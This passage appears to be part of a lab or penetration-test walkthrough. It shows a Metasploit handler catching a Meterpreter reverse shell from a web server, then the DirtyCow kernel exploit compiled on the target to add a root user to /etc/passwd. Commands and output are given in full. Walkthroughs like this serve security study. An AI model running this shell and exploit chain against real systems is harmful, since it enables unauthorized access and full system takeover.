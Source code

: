 ```bash
   ----   ---------------  --------  -----------
   LHOST  192.168.49.150   yes       The listen address (an interface may be specified)
   LPORT  443              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.49.150:443 
```

### start `meterpreter`
```bash
www-data@ubuntu:/usr/lib/cgi-bin$ /tmp/shell
```

### catch connection from `meterpreter`
```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.49.150:443
[*] Meterpreter session 1 opened (192.168.49.150:443 -> 192.168.150.87:52570 ) at 2022-02-01 16:57:33 -0500

meterpreter > getuid
Server username: www-data
```

## privilege escalation
1. Use [https://github.com/jondonas/linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2) to identify that the server is vulnerable to `dirtycow`
2. Use [https://www.exploit-db.com/raw/40839](https://www.exploit-db.com/raw/40839) and upload it to the target via `meterpreter`
3. Compile and execute the exploit to add a new `root` user

```bash
meterpreter > shell
Process 4149 created.
Channel 65 created.
cd /tmp
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
gcc -pthread dirty.c -o dirty -lcrypt
www-data@ubuntu:/tmp$ ./dirty
./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 12345678
Complete line:
firefart:fiMWHjmZgx9rM:0:0:pwned:/root:/bin/bash

mmap: 7fad37d9f000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '12345678'.

```